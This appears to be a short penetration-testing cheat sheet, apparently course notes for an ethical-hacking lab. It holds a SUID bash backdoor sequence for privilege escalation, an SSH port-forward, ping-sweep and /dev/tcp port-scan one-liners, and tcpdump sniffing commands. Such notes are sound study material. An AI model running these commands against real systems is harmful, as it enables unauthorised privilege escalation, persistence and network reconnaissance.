 git clone https://github.com/melnicek/peh

https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html

cp /bin/bash /tmp/yz
chmod +s /tmp/yz
/tmp/yz -p

ssh -L LPORT:RHOST:RPORT USER@RHOST -fN

for i in {1..254}; do (ping -c 1 x.x.x.${i} | grep "bytes from" &); done; sleep 2; arp -en | grep -v incomplete
for i in {1..65535}; do (echo > /dev/tcp/x.x.x.x/$i) >/dev/null 2>&1 && echo $i is open; done

sudo tcpdump -D
sudo tcpdump -i INTERFACE
sudo tcpdump -i INTERFACE -e
sudo tcpdump -i INTERFACE -X
sudo tcpdump -i INTERFACE host HOST
sudo tcpdump -i INTERFACE src host HOST
sudo tcpdump -i INTERFACE tcp src port PORT

for i in {1..254}; do (ping -c 1 10.200.101.${i} | grep "bytes from" &); done; sleep 2; arp -en | grep -v incomplete